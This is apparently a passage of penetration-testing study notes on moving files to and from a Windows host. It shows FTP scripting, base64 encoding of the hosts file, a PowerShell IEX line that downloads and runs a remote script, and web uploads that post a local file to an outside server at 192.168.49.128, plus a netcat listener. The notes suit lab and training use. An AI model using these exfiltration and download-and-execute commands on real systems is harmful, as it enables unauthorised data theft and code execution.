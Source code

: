 ```cmd
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```

```ftp
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
```
## Upload Operations
#### Encode File Using PowerShell
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```powershell
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash
```
#### Decode Base64 String in Linux
```shell
echo <HASH> | base64 -d > hosts
```

```shell
md5sum hosts 
```
## PowerShell Web Uploads
#### Configure WebServer with Upload
```shell
python3 -m uploadserver
```
#### PowerShell Script to Upload a File to Python Upload Server
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
```powershell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```
### PowerShell Base64 Web Upload
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```
```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```
###### NETCAT
```shell
nc -lvnp 8000
```
